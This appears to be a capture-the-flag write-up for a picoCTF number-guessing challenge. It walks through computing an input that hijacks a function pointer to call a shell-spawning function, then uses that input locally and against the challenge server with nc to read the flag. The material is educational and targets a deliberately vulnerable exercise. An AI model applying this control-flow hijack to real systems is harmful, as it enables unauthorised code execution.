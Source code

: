 # Guess The Number [ 75 Pts ]

## Problem

Just a simple number-guessing game. How hard could it be? [Binary](./guess_num) [Source](./guess_num.c). Connect on shell2017.picoctf.com:30919.

## Approach

```C
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}

```

From the above source code, we see val becoming a function pointer. 
What we have to do is to provide a number that when divided by 16 would give the address of `win()`.

```
$ readelf -s guess_num | grep win
    61: 0804852b    40 FUNC    GLOBAL DEFAULT   13 win
```
The program is ELF32. From the man page, we see that uintptr_t is the same size of a pointer which is 32 bit.


`long int strtol(const char *nptr, char **endptr, int base);`

From the man page, we also see that strtol returns long int.
This means that the MSB is a sign bit.

```
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.

>>> format(0x0804852b, '032b')
'00001000000001001000010100101011'

>>> format(0x0804852b<<4, '032b')
'10000000010010000101001010110000'
```
By shifting left 4 times, the left most '1' will become a sign bit.
We will need to calculate the 2's complement to get the scale.

2's complement is calculated by flipping all the bits and + 1.

```
>>> format(0x0804852b<<4 ^ 0xffffffff, '032b')
'01111111101101111010110101001111'

>>> format((0x0804852b<<4 ^ 0xffffffff) + 1, '032b')
'01111111101101111010110101010000'

>>> (0x0804852b<<4 ^ 0xffffffff) + 1
2142743888

```

## Local

Now we only have to input -2142743888 to get a shell locally

```
$ ./guess_num 
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743888
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
$ ls
guess_num  guess_num.c	WRITEUP.md

```

## Remote

```
$ nc shell2017.picoctf.com 30919
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743888
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ ls
flag.txt
guess_num
xinetd_wrapper.sh
$ cat flag.txt	
d1ec8d4078eac1112548c1a6a00cfe07
```

(Completed)

